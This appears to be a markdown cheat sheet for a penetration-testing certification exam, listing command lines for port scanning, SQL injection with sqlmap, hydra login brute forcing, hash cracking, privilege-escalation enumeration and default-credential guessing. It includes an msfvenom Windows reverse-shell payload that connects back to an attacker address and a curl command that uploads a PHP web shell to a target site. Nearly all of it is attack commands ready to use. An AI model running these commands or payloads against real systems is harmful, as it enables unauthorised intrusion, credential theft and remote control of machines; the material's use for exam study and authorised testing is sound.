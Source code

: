 

🔥 Top 10 Exam Commands (MUST KNOW)
1. **Network Scanning**
   ```
   nmap -sS -p- -T4 10.10.10.10  # Stealth TCP scan
   nmap -sU -p 53,161 10.10.10.10 # UDP scan
   ```

2. **Web App Attacks**
   ```
   sqlmap -u "http://site.com?id=1" --risk=3 --level=5 --dbs
   hydra -l admin -P rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=invalid"
   ```

3. **Password Cracking**
   ```
   john --format=NT hashes.txt --wordlist=rockyou.txt
   hashcat -m 1000 hashes.txt rockyou.txt --force
   ```

4. **Metasploit Essentials**
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > payload.exe
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   ```

## 📌 Exam Task Quick Reference

### 1. Network Scanning
| Task                | Command                                                                 |
|---------------------|-------------------------------------------------------------------------|
| Find live hosts     | `nmap -sn 192.168.1.0/24`                                              |
| Full port scan      | `nmap -p- -T4 10.10.10.10`                                             |
| Service versions    | `nmap -sV -p 80,443 10.10.10.10`                                       |

### 2. Web Hacking
| Vulnerability       | Command                                                                 |
|---------------------|-------------------------------------------------------------------------|
| SQL Injection       | `sqlmap -u "http://site.com?id=1" --dbs`                               |
| XSS Test            | `<script>alert('XSS')</script>`                                        |
| File Upload Bypass  | `curl -F "file=@shell.php" http://site.com/upload.php`                 |

### 3. Privilege Escalation
| OS         | Command                                                                 |
|------------|-------------------------------------------------------------------------|
| Linux      | `sudo -l`, `find / -perm -4000 2>/dev/null`, `linpeas.sh`              |
| Windows    | `whoami /priv`, `systeminfo`, `winPEASany.exe`                         |

## 🚨 Exam Day Pro Tips
1. **Time Management**:
   - Spend max **15-20 mins per task**
   - Flag difficult tasks and return later

2. **Documentation**:
   ```
   # Take screenshots of EVERY step
   import -window root screenshot_$(date +%s).png
   ```

3. **When Stuck**:
   - Check `/var/www/html` for web files
   - Try default creds (`admin:admin`, `root:toor`)



